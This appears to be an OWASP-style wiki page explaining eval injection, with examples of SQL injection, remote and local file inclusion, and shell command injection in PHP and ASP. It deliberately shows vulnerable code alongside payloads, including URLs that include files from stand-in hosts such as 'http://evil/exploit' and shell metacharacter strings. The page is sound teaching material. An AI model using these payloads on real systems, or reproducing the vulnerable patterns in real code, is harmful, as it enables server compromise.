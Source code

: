 ```yaml
---

layout: col-sidebar
title: Direct Dynamic Code Evaluation - Eval Injection
author: 
contributors:
permalink: /attacks/Direct_Dynamic_Code_Evaluation_Eval Injection
tags: attack, direct dynamic code evaluation, eval injection
auto-migrated: 1

---
```


{% include writers.html %}

## Description

This attack consists of a script that does not properly validate user inputs in the page parameter. A remote user can supply a specially crafted URL to pass arbitrary code to an eval() statement, which results in code execution.

Note 1: This attack will execute the code with the same permission like the target web service, including operation system commands.

Note 2: Eval injection is prevalent in handler/dispatch procedures that might want to invoke a large number of functions, or set a large number of variables.

## Risk Factors

TBD

## Examples

### Example 1

In this example an attacker can control all or part of an input string that is fed into an eval() function call

```php
$myvar = "varname";
$x = $_GET['arg'];
eval("\$myvar = \$x;");
```

The argument of "eval" will be processed as PHP, so additional commands can be appended. For example, if "arg" is set to "10 ; system(\"/bin/echo uh-oh\");", additional code is run which executes a program on the server, in this case "/bin/echo".

### Example 2

The following is an example of SQL Injection. Consider a web page which has two fields to allow users to enter a Username and a Password. The code behind the page will generate a SQL query to check the Password against the list of Usernames:

```sql
SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password'
```

If this query returns exactly one row, then access is granted. However, if a malicious user enters a valid Username and injects some valid code ("' OR 1=1") in the Password field, then the resulting query will look like this:

```sql
SELECT UserList.Username
FROM UserList
WHERE
UserList.Username = 'Username'
AND UserList.Password = 'Password' OR '1'='1'
```

In the example above, "Password" is assumed to be blank or some innocuous string. "1=1" will always be true and many rows will be returned, thereby allowing access. The final inverted comma will be ignored by the SQL parser. The technique may be refined to allow multiple statements to run, or even to load up and run external programs.

### Example 3

This is an example of a file that was injected. Consider this PHP program (which includes a file specified by request):

```php
<?php
   $color = 'blue';
   if ( isset( $_GET['COLOR'] ) )
      $color = $_GET['COLOR'];
   require( $color . '.php' );
?>
<form>
   <select name="COLOR">
      <option value="red">red</option>
      <option value="blue">blue</option>
   </select>
   <input type="submit">
</form>
```

The developer thought this would ensure that only blue.php and red.php could be loaded. But as anyone can easily insert arbitrary values in COLOR, it is possible to inject code from files:

* `/vulnerable.php?COLOR=http://evil/exploit` - injects a remotely hosted file containing an exploit.
* `/vulnerable.php?COLOR=C:\ftp\upload\exploit` - injects an uploaded file containing an exploit.
* `/vulnerable.php?COLOR=..\..\..\..\ftp\upload\exploit` - injects an uploaded file containing an exploit, using Path Traversal.
* `/vulnerable.php?COLOR=C:\notes.txt%00` - example using Null character, Meta character to remove the `.php` suffix, allowing access to other files than .php. (PHP setting "magic_quotes_gpc = On", which is default, would stop this attack)

### Example 4

A simple URL which demonstrates a way to do this attack:

`http://some-page/any-dir/index.php?page=<?include($s);?>&s=http://malicious-page/cmd.txt?`

### Example 5

Shell Injection applies to most systems which allow software to programmatically execute a Command line. Typical sources of Shell Injection are calls system(), StartProcess(), java.lang.Runtime.exec() and similar APIs.

Consider the following short PHP program, which runs an external program called funnytext to replace a word the user sent with some other word.

```php
<HTML>
<?php
passthru ( " /home/user/phpguru/funnytext " 
           . $_GET['USER_INPUT'] );
?>
```

This program can be injected in multiple ways:

* `\`command\`` will execute command.
* `$(command)` will execute command.
* `; command` will execute command, and output result of command.
* `| command` will execute command, and output result of command.
* `&& command` will execute command, and output result of command.
* `|| command` will execute command, and output result of command.
* `> /home/user/phpguru/.bashrc` will overwrite file `.bashrc.`
* `< /home/user/phpguru/.bashrc` will send file `.bashrc` as input to funnytext.

PHP offers `escapeshellarg()` and `escapeshellcmd()` to perform encoding before calling methods. However, it is not recommended to trust these methods to be secure - also validate/sanitize input.

### Example 6

The following code is vulnerable to eval() injection, because it don’t sanitize the user’s input (in this case: “username”). The program just saves this input in a txt file, and then the server will execute this file without any validation. In this case the user is able to insert a command instead of a username.

Example:

```asp
<%
	If not isEmpty(Request( "username" ) ) Then
		Const ForReading = 1, ForWriting = 2, ForAppending = 8
		Dim fso, f
		Set fso = CreateObject("Scripting.FileSystemObject")
		Set f = fso.OpenTextFile(Server.MapPath( "userlog.txt" ), ForAppending, True)
		f.Write Request("username") & vbCrLf
		f.close
		Set f = nothing
		Set fso = Nothing
		%>
		<h1>List of logged users:</h1>
		<pre>
		<%
			Server.Execute( "userlog.txt" )
		%>
		</pre>
		<%
	Else
		%>
		<form>
			<input name="username" /><input type="submit" name="submit" />
		</form>
		<%
	End If
%>
```

## Related Threat Agents

* Internal software developer

## Related Attacks

* Direct Static Code Injection
* Code Injection
* Injection Attacks

## Related Vulnerabilities

* Category:Input Validation Vulnerability

## Related Controls

* Category:Input Validation

## References

* http://secunia.com/cve_reference/CVE-2006-2005/?show_result=1
* http://en.wikipedia.org/wiki/Code_injection
